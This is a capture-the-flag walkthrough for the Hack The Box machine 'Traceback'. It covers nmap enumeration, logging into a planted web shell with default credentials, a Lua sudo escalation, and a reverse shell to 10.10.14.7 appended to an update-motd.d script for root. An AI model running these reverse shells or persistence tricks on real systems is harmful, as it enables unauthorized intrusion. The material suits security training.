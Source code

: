 ```yaml
---
featured_image: "/posts/Traceback/traceback.png"
title : HTB 17/20 Traceback
published : true
date: 2021-04-26
author : PS
---
```

## Foothold
*nmap*
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 22:00 EEST
Nmap scan report for 10.10.10.181
Host is up (0.086s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.51 second
```
![img](1.png)
![img](2.png)
![img](3.png)
![img](4.png)
After manually trying to access one of those web shell I've managed to find one  
![img](5.png)
The default password is admin:admin  
![img](6.png)
run this , and also have a nc opened  
```bash
>>> nc -nlvp 6969
Connection from 10.10.10.181:37518
bash: cannot set terminal process group (716): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/var/www/html$ 
```
## User
```bash
webadmin@traceback:/var/www/html$ ls
ls
bg.jpg
index.html
smevk.php
webadmin@traceback:/var/www/html$ cd ~ 
cd ~
webadmin@traceback:/home/webadmin$ ls
ls
note.txt
webadmin@traceback:/home/webadmin$ cat note.txt
cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:/home/webadmin$ 
```
```bash
webadmin@traceback:/home$ sudo -l
sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
webadmin@traceback:/home$ 
```
```bash
webadmin@traceback:/home/webadmin$ echo "require('os');" > priv.lua
echo "require('os');" > priv.lua
webadmin@traceback:/home/webadmin$ echo "os.execute('/bin/bash');" >> priv.lua
<badmin$ echo "os.execute('/bin/bash');" >> priv.lua
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit ./priv.lua
<n$ sudo -u sysadmin /home/sysadmin/luvit ./priv.lua
ls
note.txt
priv.lua
privesc.lua
whoami
sysadmin
bash -i                                         
bash: cannot set terminal process group (716): Inappropriate ioctl for device
bash: no job control in this shell
sysadmin@traceback:/home/webadmin$ 
sysadmin@traceback:/home/webadmin$ cd ~
cd ~
sysadmin@traceback:~$ ls
ls
luvit
user.txt
sysadmin@traceback:~$ cat user.txt
cat user.txt
6eee71d3bb03f0ed1dc500de6b4c54e0
sysadmin@traceback:~$ 
```
## Root
After uploading linpeas we find an interesting process updatemotd.d
```bash
sysadmin@traceback:~$ cd /etc/update-motd.d/
cd /etc/update-motd.d/
sysadmin@traceback:/etc/update-motd.d$ ls
ls
00-header
10-help-text
50-motd-news
80-esm
91-release-upgrade
sysadmin@traceback:/etc/update-motd.d$ 
```
I tried to use 
```bash
sysadmin@traceback:/etc/update-motd.d$ echo "'bash -i >& /dev/tcp/10.10.14.7/9191 0>&1'" >> 00-header
< -i >& /dev/tcp/10.10.14.7/9191 0>&1'" >> 00-header
sysadmin@traceback:/etc/update-motd.d$ 
```
It was not working ,so i tried a python reverse shell , also you have to have a new ssh session , do that and kaboomm you get root  
PS out 
